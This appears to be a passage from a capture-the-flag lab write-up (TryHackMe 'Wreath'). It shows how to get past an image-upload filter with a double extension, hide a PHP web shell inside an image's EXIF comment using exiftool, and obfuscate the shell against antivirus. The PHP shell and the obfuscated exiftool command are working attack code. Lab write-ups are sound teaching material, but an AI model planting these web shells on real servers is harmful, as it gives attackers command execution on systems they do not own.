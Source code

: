 
We land on a page where we can upload images. We can try to upload a malicious image file to run commands on the host. After trying uploading various filetypes we learn that we can upload ```filename.jpeg.php``` files. There is however a check to see if the file is really an image so we'll have to use a real image, add php code to it's command, upload the file and hopefully are able to run commands.

We have a payload:
```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```
And we'll obfuscate the code to avoid possible antivirus detection. 
> Note: Use PHP obfuscator: https://www.gaijin.at/en/tools/php-obfuscator

```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" test.jpg.php 
```
Upon browsing to the uploaded script we see that we can now run commands on the host:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Wreath/assets/15.png">
